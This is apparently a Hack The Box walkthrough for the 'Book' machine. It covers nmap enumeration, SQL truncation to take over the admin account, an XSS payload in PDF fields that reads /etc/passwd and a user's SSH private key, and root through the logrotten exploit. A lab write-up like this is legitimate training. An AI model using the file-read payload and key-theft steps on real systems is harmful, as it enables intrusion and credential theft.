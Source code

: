 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<p align="center"> Book is a medium machine created by <a href="https:/www.hackthebox.eu/home/users/profile/13531">MrR3boot</a></p>  
  
  
  
# Enumeration
  
<center>As always, begin with nmap</center>  

### nmap  
  
<hr>nmap -sC -sV -T4 -p 22,80 10.10.10.176<hr>  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<p align="center">Using <a href="https://resources.infosecinstitute.com/sql-truncation-attack/">SQL truncation</a> with Burp Suite I tested "name" and "email" fields with more characters</p>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<p align="center">Using <a href="https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html">this</a> as reference I found a way in</p>  
  
### Exploit  
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script (missing script tags) </center>  

  
<hr>
<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  
<hr>
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id_rsa and uploaded a new pdf, downloaded it again and a got the id_rsa from user reader</center>  
  
<center>Copy that to another file called id_rsa and "chmod 600 id_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just <br><hr>ssh -i id_rsa reader@10.10.10.176"<hr><br></center>  
  
# ![book8](/assets/img/book/book8.png)
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<p align="center">I used <a href="https://github.com/DominicBreuker/pspy.git">pspy</a> and find root process</p>  
<hr>
<center>scp -i id_rsa pspy64 reader@10.10.10.176</center>  
<hr>
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<p align="center">Search logrotate exploit in google and found <a href="https://github.com/whotwagner/logrotten">this</a> on github</p>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  
